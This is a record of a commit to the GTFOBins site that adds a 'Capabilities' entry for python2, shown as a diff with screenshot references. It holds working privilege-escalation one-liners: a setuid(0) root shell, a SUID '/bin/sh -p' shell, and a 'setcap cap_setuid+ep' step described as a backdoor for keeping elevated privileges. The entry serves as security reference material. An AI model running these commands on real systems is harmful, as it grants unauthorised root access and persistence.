

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/python2.md, in a window 1280 px wide and 900 px high, scrolled down 1518 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2225 px from its top, so only the background shows below that.

Commit message:
Drafting capabilities

```diff
--- a/_data/functions.yml
+++ b/_data/functions.yml
@@ -62,6 +62,13 @@ load-library:
     It loads shared libraries that may be used to run code in the binary
     execution context.
 
+capabilities-enabled:
+  label: Capabilities
+  description: |
+    It can manipulate its process UID and in Linux systems it can be set with the
+    `CAP_SETUID` capability to make it work as a backdoor to maintain elevated privileges.
+    This also works if the binary is invoked by another binary with the capability set.
+
 suid-enabled:
   label: SUID
   description: |
--- a/_gtfobins/python2.md
+++ b/_gtfobins/python2.md
@@ -30,6 +30,8 @@ functions:
     - code: python2 -c 'open("file_to_read").read()'
   load-library:
     - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
+  capabilities-enabled:
+    - code: ./python2 -c 'import os; os.setuid(0); os.system("/bin/sh")'
   suid-enabled:
     - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
   sudo-enabled:
--- a/_layouts/bin.html
+++ b/_layouts/bin.html
@@ -30,6 +30,10 @@ layout: common
 cp $(which {{ bin_name }}) .
 sudo sh -c 'chown 0 ./{{ bin_name }}; chmod +s ./{{ bin_name }}'
 {% endif %}
+{%- if function_name == 'capabilities-enabled' %}
+cp $(which {{ bin_name }}) .
+sudo setcap cap_setuid+ep {{ bin_name }}
+{% endif %}
 {{ example.code }}
 {% endcapture %}
 
```
